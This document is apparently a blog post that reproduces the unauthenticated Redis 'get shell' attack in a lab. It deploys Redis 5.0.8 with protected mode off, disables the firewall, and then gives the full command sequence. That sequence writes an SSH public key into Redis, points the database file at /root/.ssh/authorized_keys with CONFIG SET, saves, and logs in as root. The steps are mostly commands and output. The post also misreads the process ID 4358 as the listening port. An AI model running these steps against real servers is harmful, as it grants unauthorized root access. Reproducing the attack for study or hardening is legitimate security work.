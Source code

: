```yaml
---
layout: post
title: "Redis Get Shell Vulnerability Reproduction"
subtitle: ''
author: "hxp"
header-style: text
tags:
- Redis
---
```


# Deploy Redis #

``` shell
root@server:~# wget http://download.redis.io/releases/redis-5.0.8.tar.gz
root@server:~# tar xzf redis-5.0.8.tar.gz
root@server:~# cd redis-5.0.8
root@server:~/redis-5.0.8# make
root@server:~/redis-5.0.8# make install
```

And we change nothing of `redis.conf`, using its default setting, disabling protected mode.

# Fire Up Redis #

``` shell
root@server:~# redis-server --daemonize yes --protected-mode no
```

See which address Redis is listening

``` shell
root@server:~# netstat -tulpn | grep redis
tcp        0      0 0.0.0.0:6379            0.0.0.0:*               LISTEN      4358/redis-server *
tcp6       0      0 :::6379                 :::*                    LISTEN      4358/redis-server *
```

The output showed that Redis is listening `0.0.0.0:4358`

# Turn off Firewall #

On Ubuntu server:

``` shell
root@server:~# ufw disable
```

On CentOS server:

``` shell
root@server:~# systemctl stop firewalld
```

Or you may allow port 4358 instead.

# Attack Procedure #

I assume that you have already had an ssh key, and the public key is located in `~/.ssh/id_rsa.pub`, the private key is located in `~/.ssh/id_rsa`.

We connect our Redis server without password:

``` shell
[hxp@hxp-arch ~]$ redis-cli -h 142.**.***.32
```

The connection was successful. Then we can push our ssh key to server by

``` shell
[hxp@hxp-arch ~]$ (echo -e "\n\n";cat ~/.ssh/id_rsa.pub;echo -e "\n\n") | redis-cli -h 142.**.***.32 -x set ssh-key
```

Log back to see if our injection was successful

``` shell
[hxp@hxp-arch ~]$ redis-cli -h 142.**.***.32
142.**.***.32:6379> get ssh-key
"ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCuQgS2UfoevBjEX7UTgpSPWx1aBHqMmynjK417hsz9UXNQNesKq/T****************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************= ********@***********\n"
142.**.***.32:6379> 
```

Then we detect which user Redis is running as

``` shell
142.**.***.32:6379> CONFIG GET dir
1) "dir"
2) "/root"
```

Fortunately Redis is running as root.

The last thing we need to do was to set our database file to `/root/.ssh/authorized_keys`, and save.

``` shell
142.**.***.32:6379> CONFIG SET dir /root/.ssh
OK
142.**.***.32:6379> CONFIG SET dbfilename authorized_keys
OK
142.**.***.32:6379> save
OK
142.**.***.32:6379> exit
```

After that, the ssh public key should be saved in `/root/.ssh/authorized_keys`

Log in to the server:

``` shell
[hxp@hxp-arch ~]$ ssh -i ~/.ssh/id_rsa root@142.**.***.32
```

Success. And we can see that our public key is inserted in `/root/.ssh/authorized_keys`

``` shell
root@server:~# cat /root/.ssh/authorized_keys 
REDIS0009�      redis-ver5.0.8�
�edis-bits�@�ctime�x��^used-mem¸
 aof-preamble���ssh-keyBD


ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCuQgS2UfoevBjEX7UTgpSPWx1aBHqMmynjK417hsz9UXNQNesKq/T****************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************= ********@***********



�=��u���root@server:~# 

```

